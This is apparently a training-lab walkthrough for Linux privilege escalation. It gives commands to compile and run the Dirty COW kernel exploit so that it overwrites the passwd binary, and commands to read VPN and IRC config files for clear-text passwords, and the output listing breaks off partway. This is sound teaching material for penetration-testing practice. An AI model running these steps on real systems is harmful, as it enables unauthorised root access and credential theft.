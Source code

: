 # Linux PrivEsc 

##  Privilege Escalation - Kernel Exploits 

### Dirty Cow Exploitation

Detection

Linux VM

1. In terminal type:
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
2. From the output, notice that the OS is vulnerable to “dirtycow”.

Exploitation

Linux VM

1. In Terminal type:
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
2. In command prompt type: ./c0w

Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.

3. In command prompt type: passwd
4. In command prompt type: id

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary.

## Privilege Escalation - Stored Passwords (Config Files) 

Exploitation

Linux VM

1. In terminal type: cat /home/user/myvpn.ovpn
2. From the output, make note of the value of the “auth-user-pass” directive.
3. In terminal type: cat /etc/openvpn/auth.txt
4. From the output, make note of the clear-text credentials.
5. In terminal type: cat /home/user/.irssi/config | grep -i passw
6. From the output, make note of the clear-text credentials.

`` 
TCM@debian:~$ cat /home/user/myvpn.ovpn 
``
``
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0
``
``
TCM@debian:~$ cat /etc/openvpn/auth.txt
user